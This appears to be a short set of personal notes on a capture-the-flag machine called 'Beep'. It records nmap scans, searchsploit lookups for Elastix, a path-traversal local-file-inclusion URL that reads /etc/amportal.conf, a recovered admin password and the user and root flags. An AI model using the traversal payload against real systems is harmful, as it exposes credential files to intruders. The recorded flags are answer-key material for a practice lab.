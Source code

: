 # Beep

furious 10.10.10.7
> 4559,25,3306,80,4190,10000,111,995,110,143,22,4445,443,993,%                                                                                                              

nmap -sC -sV -p4559,25,3306,80,4190,10000,111,995,110,143,22,4445,443,993 -Pn -n 10.10.10.7 -oN targeted

# 80
searchsploit elastix

## LFI
searchsploit -x php/webapps/37637.pl

https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

### searching for users
user: admin
password: jEhdIekWmdjE

## flags

user: aeff3def0c765c2677b94715cffa73ac
root: d88e006123842106982acce0aaf453f0
